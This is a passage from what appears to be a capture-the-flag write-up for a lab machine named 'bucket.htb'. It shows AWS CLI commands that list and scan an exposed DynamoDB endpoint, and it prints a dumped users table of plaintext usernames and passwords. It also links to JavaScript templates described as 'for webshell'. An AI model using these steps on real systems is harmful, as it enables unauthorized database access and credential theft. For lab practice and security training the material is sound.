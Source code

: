 	`aws configure`

	  access_key:ANYTHINGTOCONFIGUREE
	  secret_key:zxcvbnmasDFGH/QWERTYU/pOiUytZSXDCFVGBNJM
	  region:us-west-1
	  output:json

### Dump Data

- **First**, find the table name, [template](awsApiTmpl/list-table.js) for webshell

	`aws dynamodb list-tables --endpoint-url http://s3.bucket.htb/ | jq -r .`

	  {
    	  "TableNames": [
    	  "users"
    	  ]
	  }

- **Second**, scan `users` table, [template](awsApiTmpl/scan-tmpl.js) for webshell

	`aws dynamodb scan --table-name users --endpoint-url http://s3.bucket.htb/ | jq -r .`

		{
		    "Count": 3,
		    "Items": [
			{
			    "username": {
			    "S": "Mgmt"
			    },
				"password": {
				"S": "Management@#1@#"
			    }
			},
			{
				"username": {
				"S": "Cloudadm"
				},
				"password": {
				"S": "Welcome123!"
			    }
			},
			{
				"username": {
				"S": "Sysadm"
			    },
				"password": {
				"S": "n2vM-<_K_Q:.Aa2"
				}
			}
		    ],
		    "ScannedCount": 3,
		    "ConsumedCapacity": null
                }
